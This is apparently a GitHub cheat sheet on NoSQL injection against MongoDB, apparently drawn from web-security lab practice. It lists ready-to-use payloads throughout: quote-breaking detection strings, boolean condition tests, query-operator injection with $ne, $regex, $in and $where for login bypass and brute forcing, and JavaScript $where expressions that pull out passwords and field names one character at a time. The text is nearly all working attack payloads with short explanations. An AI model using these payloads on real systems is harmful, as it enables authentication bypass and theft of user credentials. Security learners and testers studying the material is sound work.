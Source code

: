 # Basic operator difference between SQLi && NoSQLi
  1. ```or``` >> ```||```
  2. ```and``` >> ```&&```
  3. ```-- -``` >> ```%00``` 
# Detecting NoSQLi Vulnerability
```
'
\'
'+%26%26+1%3d%3d1%00
'+||+1%3d%3d1%00
'||1||'
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
```
# Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
' || 1 || 'x
'%00
```
You can also remove the ```x``` end of the payload.
## Example with explanation:

  1. ```category=Gifts' && 0 && 'x``` >> This will return no items like ```category=Gifts' and 1=0-- -``` in sql injection.
  2. ```category=Gifts' && 1 && 'x``` >> This will return Gift items like ```category=Gifts' and 1=1-- -``` in sql injection.
  3. ```category=Gifts' || 1 || 'x``` >> This will return all the items like ```category=Gifts' or 1=1-- -``` in sql injection.

# NoSQL operator injection
```
$where - Matches documents that satisfy a JavaScript expression.
$ne - Matches all values that are not equal to a specified value.
$in - Matches all of the values specified in an array.
$regex - Selects documents where values match a specified regular expression.
```
## Submitting query operators
In JSON messages, you can insert query operators as nested objects. For example, ```{"username":"wiener"}``` becomes ```{"username":{"$ne":"invalid"}}```.

For URL-based inputs, you can insert query operators via URL parameters. For example, username=wiener becomes ```username[$ne]=invalid```. 
# MongoDB Login Bypass
```
{"$regex":"wien.*"} >> For username
{"$ne":"Invalid"} >> For password
{"$in":["admin","administrator","superadmin"]} >> For bruteforce
```
![Screenshot from 2024-05-15 02-30-58](https://github.com/user-attachments/assets/e5d1920b-a7e4-445e-8ece-f249a8462d10)<br>
Note: We need to input atleast one valid credential to make a valid query.
<br>
If this doesn't work, you can try the following:

    1. Convert the request method from GET to POST.
    2. Change the Content-Type header to application/json.
    3. Add JSON to the message body.
    4. Inject query operators in the JSON.
# MongoDB Data Retrieving
Extracting Password:
```
' && this.password.length < 50%00 >> For extracting password length in URL
' && this.password[0] == 'a'%00 >> For extracting password in URL
```
Extracting Field names:
```
' && this.anything && 'a'=='b >> Confirming if there is a field name
' && this.username!=' >> Identifying field names [Note: If there is username field exists, it will response with different type of message]
' && this['u'] && 'a'=='b >> Retrieving field name character by character
' && this.u.s.e.r.n.a.m['e'] && 'a'=='b
```
### Identifying field names

# Operator Injection To Retrieving Unknown Data

{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"} >> To generate an server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"} >> To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}} >> To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}

Object.keys(this)[0].match('^.{0}.*') >> To identify data size. Ex: Password
Object.keys(this)[0].match('^.{0}0.*') >> To fetch the data
this.forgotpwd.match('^.{0}.*') >> To fetch specific keyvalue data size.
this.forgotpwd.match('^.{0}0.*') >> To fetch specific keyvalue.

1st 0 means key number
2nd 0 means data size
3rd 0 means data character
For bruteforcing select only 2nd and 3rd 0

